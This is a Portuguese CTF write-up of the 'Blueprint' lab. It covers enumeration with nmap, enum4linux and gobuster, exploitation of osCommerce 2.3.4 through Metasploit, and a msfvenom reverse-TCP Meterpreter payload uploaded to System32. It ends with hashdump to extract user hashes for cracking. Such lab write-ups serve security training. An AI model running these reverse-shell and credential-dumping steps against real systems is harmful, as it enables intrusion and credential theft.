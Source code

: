 # _**Blueprint CTF**_
![](blue.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)  

![](host_script.jpg)  

Tentando acessar o que tem na porta 80, não foi encontrado nada  
Vamos tentar realizar enumeração com a ferramenta <mark>Enum4Linux</mark>  
> ```bash
> enum4linux -a [ip_address]
> ```
![](scan_enum.jpg)

Após a enumeração, nada de relevante foi encontrado  
Na pora adiante, 8080, temos uma pasta com algumas informações do próprio site  
Antes de vasculharmos, podemos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]:8080/oscommerce-2.3.4/catalog/ -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](scan_gobuster.jpg)

Temos diversos diretórios interessantes descobertos  
Vamos primeiro verificar _/admin_  
Uma página de login e também a disposição, versão do software  
Procurando no <mark>Metasploit</mark> alguma versão de exploit, encontramos e vamos uitlizar a seguinte  

![](os_commerce_expl.jpg)

Configurando as opções necessárias, obtemos uma sessão meterpreter e vamos digitar ```shell``` para obter uma  

![](shell.jpg)

Devido a instabilidade desta shell, vamos ter que contornar  
Primeiro, vamos criar um _paylaod_ e realizar _upload_ via nossa sessão
> ```bash
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpn_ip_address] LPORT=[port] -f exe > shell.exe
> ```

Segundo, vamos abrir uma nova sessão no metasploit  
Selecionamos _multi/handler_ e o exploit _windows/meterpreter/reverse_tcp_  
Configuramos as opções necessárias como **LPORT** e **LHOST**  
Executamos  
Na sessão meterpreter anterior, vamos executar o seguinte comando ```upload shell.exe``` no diretório C:\Windows\System32  
No mesmo diretório, executamos o comando ```execute -f shell.exe```  
Assim que executado, conseguimos uma nova sessão meterpreter e desta vez, mais estável  
Agora, digitamos ```hashdump``` para obter a hash do usuário ```Lab```  

![](crackstation.jpg)

Navegando até _C:\Users\Administrator\Desktop\_ e procurando, conseguimos encontrar a flag _root.txt_  
